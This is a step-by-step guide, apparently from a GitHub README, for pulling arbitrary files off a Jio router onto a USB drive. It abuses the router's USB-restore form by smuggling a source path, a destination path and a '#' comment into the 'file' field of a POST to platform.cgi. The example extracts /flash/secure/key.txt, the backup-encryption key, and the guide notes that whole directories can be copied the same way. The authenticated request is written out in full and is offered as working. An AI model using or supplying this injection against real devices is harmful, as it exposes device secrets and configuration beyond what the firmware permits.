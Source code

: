 # Way to get any file directly from your Jio Router's Filesystem to your pendrive [Working as of 3rd January 2023]

*Disclaimer: - This is Only for educational purposes, No one is responsible for any type of damage. Any wrong step might brick your router. So be aware.*

## Requirements:-

1. Chrome Browser
2. Postman (or cURL, if you prefer that)
3. A Pendrive or a Portable HDD/SSD that can be plugged into your router

## Notes:-

*Here we are copying `/flash/secure/key.txt` which is the encryption key used to encrypt the router backup configuration to our pendrive.*

*The location of the the pendrive root in the router is `/mnt/vfs/admin/ITSYOURAP/` (Remember to replace `"ITSYOURAP"` with the label of your pendrive)*

*In newer version replace the `backupRestore.html` with `backupRestore.html` to avoid `401 Uanuthorized` Error.

## Steps:-

1. Open your router admin page (`http://192.168.29.1`) and login via your admin credentials.
2. After logging in, copy the value of the cookie `TeamF1Login`. You can use the Application tab in Developer options to do so.
3. Go to the Administration > Maintenance Page
4. Press `CTRL + U` (If you are in Chrome Browser) to View Source of the page (Alternatively, you can Inspect Element)
5. Find the Backup/Restore HTML Form. It should look like this:-

    ```html  
    <form name="tf1_frmBackupSaveCurrentSettings" method="post" action="?action=backup">
    <input type="hidden" name="token" value="sometoken">
    ```
6. Copy the value of token element from the form. Here it is sometoken.
7. Open up Postman and create a new POST request to `http://192.168.29.1/platform.cgi`

   In the headers section, uncheck `Accept` and `Accept-Encoding` header.
   Fill up these headers in the request (Use the Bulk Edit option and copy paste these):-
   
   ```none
   Cookie:TeamF1Login=yourteamf1logincookievalue
   Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
   Referer:http://192.168.29.1/platform.cgi?page=backupRestore.html
   ```

   Change the `TeamF1Login` value with the cookie value you copied in step 2.
   Now go to the Body section and check the form-data checkbox. Click on the Bulk Edit option and copy paste these values:
   
   ```none
   button.usbRestore.statusPage:usbRestore
   file:/flash/secure/key.txt /mnt/vfs/admin/ITSYOURAP/ #
   token:sometoken
   thispage:backupRestore.html
   ```
   
   Remember to replace `sometoken` with the value of the token you copied earlier. Also replace the first section of the file param with the file you want to copy. (We are copying `/flash/secure/key.txt` in this case)
   
8. Now Click on the Send button in Postman to send the request.
Within a few seconds, your request gets completed and now you have the requested file in your Pendrive root. 

***PS: You can also copy directories using this method. Just change the first section of the file param with the folder location in the router.***
